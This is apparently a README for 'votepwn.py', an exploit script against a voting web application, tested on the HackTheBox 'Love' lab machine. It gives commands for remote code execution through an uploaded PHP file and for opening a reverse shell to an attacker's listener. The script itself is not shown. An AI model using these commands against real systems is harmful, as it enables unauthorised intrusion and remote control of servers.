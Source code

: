 ## Usage
- Remote code execution
```bash
python3 votepwn.py -rce -u <username> -p <password> 
```
User can use any kind of command since it will be b64 encoded by the python script and decoded by the php script, as I'm writing this sentence I'm realising that it might've been better to url encode so user can curl or whatever, I'll check it out.
- Reverse shell
```bash
python3 votepwn.py -rs -u <username> -p <password> -lh <lhost> -lp <lport>
```
**Notes:**

Filename is 'bad.php' by default, can be changed with -file/--filename <name>

Listen port is 4444 by default

## Testing
These tests were made in HackTheBox - Love (Easy) 
- **Remote code execution**
![A gif goes here](https://media.giphy.com/media/D5lnkh2ImOIQVjluM1/giphy.gif)
- **Reverse shell**
![A gif goes here](https://media.giphy.com/media/YcJUBgmKhPD4mvM2HK/giphy.gif)

